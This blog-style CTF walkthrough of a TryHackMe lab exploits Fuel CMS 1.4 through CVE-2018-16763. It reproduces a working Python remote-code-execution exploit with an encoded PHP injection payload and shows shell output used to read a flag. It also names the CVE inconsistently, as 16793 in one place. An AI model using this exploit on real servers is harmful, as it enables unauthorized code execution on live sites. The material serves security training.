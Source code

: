 ```yaml
---
title: "Vulnerability Capstone [TryHackMe]"
date: "2021-10-25"
tags: 
  - "ctf"
  - "cve-2018-16793"
  - "exploit"
  - "pentesting"
  - "tryhackme"
  - "vulnerability"
---
```


Here we are going to leverage the skills which you might have learned within the Vulnerability Research module.

# Task:

"Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public. It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find."

# Let's Do It!

My target box was @ **10.10.179.174.**

Navigating to the page we can see the default page for the application and we are greeted with a "Welcome to Fuel CMS Version 1.4"

Let's answer some questions:  
**What is the name of the application running on the vulnerable machine?**  
**Fuel CMS**  
**What is the version number of this application?**  
**1.4**

Alright so far so good... with the disclosure of the app and version we can go do some digging to see if we can find any existing vulnerabilities for this application...Bingo:  
Google Search:

```

fuel CMS 1.4.1 - Remote Code Execution (1) - Exploit Databasehttps://www.exploit-db.com › exploits
Jul 19, 2019 — fuel CMS 1.4.1 - Remote Code Execution (1). CVE-2018-16763 . webapps exploit for Linux platform.

    Fuel CMS 1.4.1 - Remote Code Execution (2) - Exploit Databasehttps://www.exploit-db.com › exploits
    Jan 28, 2021 — Fuel CMS 1.4.1 - Remote Code Execution (2). CVE-2018-16763 . webapps exploit for PHP platform.
```

We can answer another question:  
**What is the number of the CVE that allows an attacker to remotely execute code on this application?**  
**CVE-2018-16793**

I decided to go with the following PoC code at https://www.exploit-db.com/exploits/47138. Here is the code:

```Python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

This code does require some adjustments for it to work for us. I went ahead and made the adjustments, you can snag the code from my GitHub: [https://github.com/ManuelBerrueta/SecLabs/blob/master/TryHackMe/Jr\_Pentester\_Path/Vulnerability\_Capstone/CVE-2018-16763.py](https://github.com/ManuelBerrueta/SecLabs/blob/master/TryHackMe/Jr_Pentester_Path/Vulnerability_Capstone/CVE-2018-16763.py)

To run it just run `python CVE-2018-16763.py --url http://[Target_IP]/`.

Once we are within the `cmd>` loop we can run commands and search through the request response for the output. I found the output to be after the first `</div>` tag:

```
cmd>ls
----snipped for space saving----
</div>README.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt
----snipped for space saving----
```

After some looking around, I found a `flag.txt` file in `/home/ubuntu/`:

```
cmd>cat /home/ubuntu/flag.txt
----snipped for space saving----
<\div>THM{A****_****_*****D}
----snipped for space saving----
```
